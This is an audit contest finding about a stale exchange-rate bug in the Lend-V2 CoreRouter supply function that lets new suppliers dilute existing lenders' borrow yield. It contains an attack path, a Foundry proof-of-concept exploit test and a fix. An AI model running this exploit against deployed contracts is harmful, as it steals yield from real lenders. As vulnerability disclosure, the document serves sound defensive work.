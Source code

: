 Narrow Gunmetal Blackbird

Medium

# New suppliers can steal part of the borrow yield

### Summary

Interest is not accrued before calculating the amount of tokens to mint, which causes rewards to be diluted by new entrants.

### Root Cause

In [`CoreRouter`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L74), the supply function is calculating the amount of tokens to mint based on the exchange rate before the mint

```solidity
        // Get exchange rate before mint
        uint256 exchangeRateBefore = LTokenInterface(_lToken).exchangeRateStored();
```

The issue is, throughout this function, `accrueInterest()` is only called during the mint operation, which means `exchangeRateStored` is using outdated variables that don't take into account what should be already accrued. As a consequence, new users will mint an exaggerated amount of tokens.

### Internal Pre-conditions

None

### External Pre-conditions

None

### Attack Path

1. User A supplies 100e18 tokens.
2. 10e18 tokens are borrowed, and some time passes. Some new user B calls supply
3. The proper exchange rate will be ((100e18 + 10e18 - 1e18) * 1e18) / 100e18 = 1.09e18. and the amount to mint will be 100e18 / 1.09e18 = (100 / 1.09) * 1e18 = 91.7e18.
4. However, the new user B will mint 100e18 tokens as it's using the old exchange rate, and is therefore overcredited.
5. User B can call redeem to profit from this operation.

### Impact

Loss of borrow yield for previous suppliers.

### PoC

Run this on TestBorrowing.t.sol
```solidity
    function test_poc_InterestStealingExploit() public {
        address attacker = makeAddr("attacker");
        address lp = makeAddr("lp");

        address uToken = supportedTokens[0]; // Underlying token
        address lUToken = lendStorage.underlyingTolToken(uToken);

        uint256 lpSupplyAmount = 1000e18;
        uint256 initialBorrowAmount = 500e18;
        uint256 attackerSupplyAmount = 1e18;

        // LP supplies liquidity and borrows to kickstart interest accrual
        vm.startPrank(lp);
        ERC20Mock(uToken).mint(lp, lpSupplyAmount);
        IERC20(uToken).approve(address(coreRouter), lpSupplyAmount);
        coreRouter.supply(lpSupplyAmount, uToken);
        coreRouter.borrow(initialBorrowAmount, uToken); // Interest will now accrue on this borrow
        vm.stopPrank();

        vm.roll(block.number + 100_000); // Advance time for significant interest to accrue. ~7 hours on arbitrum. 

        ERC20Mock(uToken).mint(attacker, attackerSupplyAmount);
        uint256 attackerBalanceBeforeSupply = IERC20(uToken).balanceOf(attacker);

        // Attacker's turn: supply and immediate redeem
        vm.startPrank(attacker);
        IERC20(uToken).approve(address(coreRouter), attackerSupplyAmount);
        coreRouter.supply(attackerSupplyAmount, uToken); // Vulnerable supply due to stale exchange rate usage
        coreRouter.redeem(lendStorage.totalInvestment(attacker, lUToken), payable(lUToken));
        vm.stopPrank();

        assertTrue(IERC20(uToken).balanceOf(attacker) > attackerBalanceBeforeSupply);
        emit log_uint(IERC20(uToken).balanceOf(attacker));
        emit log_uint(attackerBalanceBeforeSupply);
    }
```

### Mitigation

Use the current exchange rate, which calls accrueInterest() first.
```solidity
        // Get exchange rate before mint
        uint256 exchangeRateBefore = LTokenInterface(_lToken).exchangeRateCurrent();
```